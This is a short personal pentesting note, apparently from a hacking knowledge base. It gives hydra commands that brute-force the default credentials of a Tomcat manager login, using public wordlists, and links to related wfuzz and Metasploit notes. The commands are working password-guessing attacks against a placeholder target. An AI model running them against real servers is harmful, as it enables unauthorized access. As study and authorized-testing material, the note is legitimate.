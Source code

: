 # brute force default credentials tomcat
colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-s PORT   if the service is on a different default port, define it here
```bash
hydra -s 8080 -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

# Related

- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- [20221003150803](/zet/20221003150803/README.md) brute force default credentials tomcat wfuzz
- [20221003150802](/zet/20221003150802/README.md) brute force default credentials tomcat metasploit
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:

    #assorted #command #hacking #hydra
